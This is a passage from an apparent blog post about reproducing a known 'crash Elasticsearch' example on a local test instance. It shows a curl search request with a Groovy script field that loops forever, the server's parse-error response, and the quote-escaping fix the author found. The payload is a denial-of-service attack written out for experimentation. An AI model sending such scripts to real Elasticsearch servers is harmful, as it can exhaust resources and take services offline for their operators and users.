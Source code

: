 Outside of the JSON snippet, the example from "Six Ways to Crash Elasticsearch" didn't specify exactly how to run the example query, so I had to do a little experimentation. First I tried the below...

**Request**

```
curl "localhost:9200/magento2-2-2-b2b-ee_product_1_v2/_search?pretty" -d'
{
    "script_fields": {
        "test1": {
            "lang": "groovy",
            "script": "while (true) {print 'Hello World'}"
        }
    }
}'
```

Sending that off to my local Elasticsearch instance I got the following response...

**Response**

```
{
  "error" : {
    "root_cause" : [ {
      "type" : "json_parse_exception",
      "reason" : "Unexpected end-of-input in VALUE_STRING\n at [Source: [B@702a79ac; line: 6, column: 172]"
    } ],
    "type" : "search_phase_execution_exception",
    "reason" : "all shards failed",
    "phase" : "query",
    "grouped" : true,
    "failed_shards" : [ {
      "shard" : 0,
      "index" : "magento2-2-2-b2b-ee_product_1_v2",
      "node" : "gH9K5vt5QOaWaREP4fwkzw",
      "reason" : {
        "type" : "json_parse_exception",
        "reason" : "Unexpected end-of-input in VALUE_STRING\n at [Source: [B@702a79ac; line: 6, column: 172]"
      }
    } ]
  },
  "status" : 500
}
curl: (3) [globbing] unmatched close brace/bracket in column 6
```

Unfortunately the single quote from `"script": "while (true) {print 'Hello World'}"` broke out of the single quotes used to enclose the request body.

Using the "copy as curl" feature on [the Elasticsearch Script Fields documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/search-request-script-fields.html) I learned that I'd need to express the single quote in unicode with`\u0027`. As such, next I tried the following...
